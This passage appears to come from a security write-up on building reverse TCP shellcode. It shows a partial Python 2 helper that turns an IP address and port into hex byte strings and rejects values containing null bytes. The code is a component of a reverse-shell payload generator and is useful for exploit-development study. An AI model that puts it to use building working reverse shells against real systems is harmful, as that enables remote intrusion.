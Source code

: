 ![Reverse Shell LocalHost](/assets/asn-2-rev-connect.PNG)
### Configure IP and Port
Python wrapper which prints out the complete shellcode given an IP and Port as command line arguments.
```python
import sys

'''
Author		: RIZAL MUHAMMED (UB3RSiCK)
Description	: Prints out Reverse TCP Shellcode given ip and port
filename	: ip-port-config-shell-reverse-tcp.py 
'''

def shellip(ip):
	global hex_ip
	hex_ip = map(lambda x: '0'+x if not len(x) == 2 else x , [hex(int(item))[2:] for item in ip.split('.')])
	
	if '00' in hex_ip:
		print "IP Address contains nullbyte: {}".format(hex_ip)
		sys.exit()
	else:
		return ''.join([r'\x'+item for item in hex_ip])
		

def shellport(port):
	global hex_port
	hex_port = hex(port)[2:]

	if len(hex_port) < 4:
        	# for all port number > 1000, len(hex(port)) will be 3 or more, not less than that
        	hex_port = "0" + hex_port

	h1 = hex_port[:2]
	h2 = hex_port[2:]

	if h1 == "00" or h2 == "00":
        	print "port number contain null byte, please choose different port number"
        	sys.exit()

```